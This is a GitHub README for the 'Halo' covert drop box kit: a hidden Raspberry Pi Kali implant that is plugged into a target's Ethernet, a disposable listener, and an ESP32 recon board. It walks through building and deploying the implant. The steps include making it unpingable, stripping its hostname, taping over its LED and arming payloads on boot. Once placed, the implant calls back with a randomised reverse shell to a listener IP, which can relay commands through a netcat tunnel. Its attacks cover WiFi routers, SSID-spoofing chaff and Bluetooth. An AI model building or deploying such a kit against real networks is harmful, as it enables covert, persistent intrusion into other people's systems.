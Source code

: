 # "Halo" Drop Box Kit
---
The Halo three-piece kit is a complete package for covert implant and reception. The implant device is a non-pingable Kali box that connects to the target network via Ethernet with multiple arming modes. It is also controllable by a WiFi access point and typically used to establish a reverse-shell to a HaloRx listener server. The attacker connects to the HaloRx via Ethernet, which protects the attacker's network in case the Halo drop box system is compromised. To complete the kit, a specially programmed TTGO ESP32 board monitors for the Halo AP to verify the implant and provide a quick view of the WiFi landscape. All three components work together and may be deployed and verified without any other devices.

### Component 1: Halo
The implant is a full functioning Kali box with multiple attacks options, WiFi attacks, and Bluetooth monitoring. Standard attacks include outbound tests, mapping of network, attacks on WiFi routers, and distraction chaff. 

### Component 2: HaloRx
The Halo drop box may be used to establish a connection directly to an attacker's laptop, but the nature of reverse shells allows the possibility of a target "hacking back". To establish a firewall, a disposable system is used to receive the shell from the drop box but remain separate from the attacker's system. An easy tunneling script allows attacks from an attacker system to flow through the HaloRx box.

### Component 3: Halo MiniRecon Device
A miniature device used to verify that the Halo drop box is running correctly without having to use other devices. In addition the device provides an at-a-glance view of the WiFi landscape. 

![Example setup](https://github.com/saintcrossbow/Halo-Drop-Box-Kit/blob/master/Docs/KitPicture.jpg "Example Setup")

## Part List
Your setup may vary, but a minimum will look something like this:
* Raspberry Pi x 2
* Covert Case (I used the Hak5 Ominous Box)
* External adapter (I used the RT5370)
* 16 GB SD
* 8 GB SD 
* Ethernet cables x 2
* USB micro cables x 2
* USB 3.0 cable 
* External battery (optional)

## Creation
_On the Halo drop box Raspberry Pi:_
1. Install the latest RPi version for Kali (or whatever OS you decide). A good example is [via null-byte](https://null-byte.wonderhowto.com/how-to/set-up-headless-raspberry-pi-hacking-platform-running-kali-linux-0176182/)
2. Connect to a monitor and enable SSH; disconnect and reboot.
3. Change password for root
4. Connect WiFi adapter
5. Install the following additional tools (needed for wiping test data, running bluetooth, reverse shell usage, and possible password cracking):
* wipe
* hciconfig
* hcitool
* sdptool
* btscanner
* blueranger
* bluelog
* bluesnarfer
* macchanger 
* wordlists
* autossh
6. Establish an access point through wlan0 in whatever preference you have; see [example](https://www.raspberrypi.org/documentation/configuration/wireless/access-point-routed.md)
7. From this repository in the Halo Attack folder, copy the files from these directories to the corresponding directory:
- /etc/*
- /payloads/*
- /usr/local/bin/*
Make sure to make all files executable by using `chmod +x *`
8. To make the payload manager start on boot:
`crontab -e`
`@reboot /payloads/payld-mgr`
9. Run the following commands to make unpingable:
`echo "net.ipv4.icmp_echo_ignore_all = 1" >> /etc/sysctl.conf`
`sysctl -p`
10. Remove details from `/etc/hostname`
11. Probably a good idea to tape over the LED

_On the HaloRx Raspberry Pi:_
1. Install whatever Linux flavor you like. I used a Raspbian install from 2 years ago. Just make sure SSH is enabled. Also don't leave any private information on this host - this is your disposable server that your attack network is going through.
2. From this repository in the Halo Attack folder, copy the files from these directories to the corresponding directory:
- /etc/*
- /payloads/*
- /usr/local/bin/*
3. Make sure to make executable by using `chmod +x *`

_On the ESP32:_
1. Download the absolute latest Arduino IDE. Make sure you do not accidentally use a wrong previously installed version. Please note that though I like what Arduino does for us, I absolutely do not enjoy Arduino coding. It just seems to tedious and too easy to screw up. So this is a rather easy project with no soldering and not a lot creativity
2. Get the [default color sketch working](https://github.com/Xinyuan-LilyGO/TTGO-T-Display/blob/master/TTGO-T-Display.ino)
3. If it works - awesome - we're going to modify that script directly to do what we want. Replace the entirety of the INO file with the contents of `\Halo Mini Recon\TTGO-T-Display.ino` file.
4. Take deep breath, compile, and hope that it all works. If it doesn't - wow - I don't know why either!

### Devices should now be in working state.

## Halo Attack Device Usage
---
_Commands_
If you can't remember the commands, the device gives a cheat sheet on boot.
* `arm`: Show currently armed payloads, and specify what payloads to start on boot.
* `disarm`: Toggle off payloads
* `startvnc / stopvnc`: Enable desktop - use sparingly and always turn off when not in use.
* `sigint n`: A catch-all capture of Bluetooth and WiFi beacons for n seconds
* `outbound_test`: A basic check to determine if the device can get out to the Internet.
* `std_nmap t`: run a standard discovery and version check, normally in polite mode but can specify timing by t
* `reverse shell ip port`: Randomly call back every 10 - 70 seconds 
* `ap_timed_mine`: Run fuse for n seconds and then run bessides-ng WiFi attack for q seconds
* `chaff`: Start SSID spoofing to cause a distraction.

_Connection_
* Connect attack box to target's Ethernet
* Power the box with USB power from the target's server, or from an outlet, or even a USB battery (not ideal and may shut off unexpectedly). If stealth is necessary, be aware that devices powered on the wall are highly suspicious.
* Switch on the mini recon device to verify the AP is working (and take a look at the WiFi landscape if you like)
* Optionally arm payloads
	
_Disconnect_
* Always shut down the device to avoid corruption; e.g. `shutdown -h now``

_Setting up Kit for Reverse Shell_
1. Connect via WiFi to Halo Attack
2. If there is already a reverse shell process:
  *Run `ps aux | grep reverse` to find the reverse shell process, then kill the pid
  *Use `disarm` command to stop reverse shell
3. Create a SSH private and public key using ssh-keygen - don't enter a password, we'll just being using the keys
4. From HaloRx: 
  *Connect to Internet and get IP (e.g. https://ip.me/). Depending on your network setup you may need to set up a forwarding rule.
  *Go to home directory, create `.ssh` directory if needed
  *Copy public key into `./ssh/halokey`
5. From Halo attack box: 
  *ssh to the HaloRx IP to verify connection
  *Manually run `reverseshell ip port` to verify connection - note the port can be whatever you want
6. From HaloRx: 
  *Run halo_receive and wait for shell. Should take no more than 90 seconds. 
  *Remember to enter the password for the Halo attack box, not the receiver
  *Once successful, close the shell
7. From Halo attack box: 
  *Change to payloads directory and change `rhost` and `rport` to match the Halo listener
  *Run `arm reverse-shell`
  *Run `arm` to verify command

_Tunneling through HaloRx_

You can send your commands from your attack network through HaloRx to go directly to the Halo attack box using the `tunnel_nc` command. Using a basic netcat technique, the script redirect all traffic from one port sends direct to the Halo attack box. Usage:

`tunnel_nc listenerPort targetIP targetPort`

_FAQ_
- _Why Halo?_ 
Inpsiration was from high-altitude low-opening parachute technique for infiltrators. Also a nice touch to the Saint technique, don't you think?

- _I do not see an AP when booting Halo._ 
If it was there before, did you unplug without doing a shutdown? If so, eject the SD and connect to a working Linux system. Run fsck on both of the partitions on the SD. You may also be able to get the box temporarily working by connecting a USB keyboard and pressing Ctrl-D to bypass the error message it is likely stuck on.

- _An ominous box? Really? Seems kinda huge and weird._
Well yes, I fortunately bought this cheaply. It does fit everything though along with a battery, and I've really wanted to find a way to put it to use.

- _This whole MiniRecon device seems a little out-of-place - did you just happen to have the ESP32 board lying around?_
Yes

- _Why the halokey nonsense for the SSH script on HaloRx?_
Mostly laziness. The Halo attack system originally was going to dial back directly to the attacker, and this was a mitigation to limit hack back (it would remove the key when complete).

